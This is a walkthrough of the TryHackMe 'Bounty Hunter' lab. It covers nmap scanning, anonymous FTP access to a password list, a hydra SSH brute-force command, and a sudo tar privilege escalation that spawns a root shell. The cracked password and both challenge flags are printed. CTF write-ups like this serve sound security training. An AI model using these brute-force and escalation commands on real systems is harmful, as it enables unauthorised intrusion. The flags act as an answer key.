 # Try Hack Me - Bounty Hunter

setup variable IP for easy use
```bash
export IP=10.10.14.22
```

# TASK 1

```bash
nmap -sC -sV -oN nmap/initial $IP
```

Results

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 16:24 EDT
Nmap scan report for 10.10.14.22
Host is up (0.14s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:                                                                             
|      Connected to ::ffff:10.6.57.243                                                           
|      Logged in as ftp                                                                          
|      TYPE: ASCII                                                                               
|      No session bandwidth limit                                                                
|      Session timeout in seconds is 300                                                         
|      Control connection is plain text                                                          
|      Data connections will be plain text                                                       
|      At session startup, client count was 3                                                    
|      vsFTPd 3.0.3 - secure, fast, stable                                                       
|_End of status                                                                                  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                
| ssh-hostkey:                                                                                   
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)                                   
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)                                  
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)                                
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                              
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                     
|_http-title: Site doesn't have a title (text/html).                                             
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel            
```

Q. Who wrote the task list? 
A. lin

There's nothing on the web site and dirbuster produced no new subdirectories. let's try anonymous FTP

```bash
ftp anonymous@10.10.14.22
mget *.txt
```
task.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

locks.txt
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
etc......

```

Q. What service can you bruteforce with the text file found? 
A. SSH

Now we have her username we can attack ssh with hydra

Q. What is the users password?
A. RedDr4gonSynd1cat3

```bash
hydra -l lin -P /home/username/Documents/THM/Bounty_hunter/locks.txt ssh://10.10.14.22
```

Q. user.txt
A. THM{CR1M3_SyNd1C4T3}

```bash
ssh lin@10.10.14.22
cat user.txt
```

Q. root.txt
A. THM{80UN7Y_h4cK3r}

```bash
sudo -l
```

Results

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick look to GTfoBins - https://gtfobins.github.io/gtfobins/tar/

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

we're root

cat out the file

```bash
cat /root/root.txt
```

Done!
